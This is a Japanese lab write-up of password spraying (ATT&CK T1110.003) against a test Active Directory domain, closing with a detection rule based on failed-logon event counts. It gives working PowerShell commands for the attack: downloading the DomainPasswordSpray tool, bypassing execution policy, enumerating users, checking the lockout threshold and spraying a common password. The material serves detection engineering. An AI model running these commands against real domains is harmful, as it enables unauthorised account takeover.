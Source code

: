# T1110.003 - Password Spraying


Password Spraying 攻撃について記載します。

|  Type  | Description   |
----|---- 
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

Password Spraying Tool
-------------

本検証では、dafthack 氏が公開している「[Domain Password Spray](https://github.com/dafthack/DomainPasswordSpray)」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip"
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
User Enumeration
-------------

まず、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
![T1110.003-1](images/T1110.003/1.png)

次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。

![T1110.003-2](images/T1110.003/2.png)

https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

![T1110.003-3](images/T1110.003/3.png)

https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。

![T1110.003-4](images/T1110.003/4.png)

Password Spraying
-------------

アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```

![T1110.003-5](images/T1110.003/5.png)


検知ルール検討
-------------

検知ルールについて検討します。 
パスワードスプレーでは、事前に列挙したユーザ、もしくはユーザリストを元に認証試行を行うため一定のタイミングで大量のログオン失敗（EID 4625）が記録されます。

![T1110.003-6](images/T1110.003/6.png)

エンタープライズ環境であれば５０や１００のオーダを閾値にすることで誤検知を防ぐことができます。

**Password Spraying**

```
Security
  EID 4625
    Count >= 50 Per 1 sec
```